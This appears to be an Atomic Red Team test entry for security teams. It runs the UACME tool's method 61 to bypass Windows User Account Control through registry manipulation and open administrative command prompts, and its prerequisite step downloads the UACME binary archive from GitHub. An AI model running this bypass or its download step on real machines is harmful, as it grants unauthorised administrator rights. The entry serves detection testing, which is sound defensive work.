 


<br/>
<br/>

## Atomic Test #17 - UACME Bypass Method 61
Executes User Account Control Bypass according to the methods listed below. Upon successful execution you should see event viewer load and two administrative command prompts.
Note: The cleanup_command's which kill the spawned cmd and event viewer processes only work if run as admin.

Author: Enigma0x3/bytecode77 derivative by Nassim Asrir

Type:	Shell API

Method: Registry key manipulation

Target:	\system32\slui.exe, \system32\changepk.exe

Component:	Attacker defined

Implementation:	ucmShellRegModMethod

UCM Method:	UacMethodDebugObject

https://github.com/hfiref0x/UACME

**Supported Platforms:** Windows


**auto_generated_guid:** 7825b576-744c-4555-856d-caf3460dc236





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| uacme_exe | Path to uacme executable | path | PathToAtomicsFolder&#92;..&#92;ExternalPayloads&#92;uacme&#92;61 Akagi64.exe|


#### Attack Commands: Run with `command_prompt`! 


```cmd
"#{uacme_exe}"
```

#### Cleanup Commands:
```cmd
powershell Stop-Process -Name cmd -Force -ErrorAction Ignore
powershell Stop-Process -Name mmc -Force -ErrorAction Ignore
```



#### Dependencies:  Run with `powershell`!
##### Description: UACME executable must exist on disk at specified location ("#{uacme_exe}")
##### Check Prereq Commands:
```powershell
$tempPath = cmd /c echo #{uacme_exe}
if (Test-Path "$tempPath") {exit 0} else {exit 1}
```
##### Get Prereq Commands:
```powershell
New-Item -Type Directory "PathToAtomicsFolder\..\ExternalPayloads\" -ErrorAction Ignore -Force | Out-Null
Invoke-WebRequest "https://github.com/redcanaryco/atomic-red-team/raw/master/atomics/T1548.002/bin/uacme.zip" -OutFile "PathToAtomicsFolder\..\ExternalPayloads\uacme.zip"
```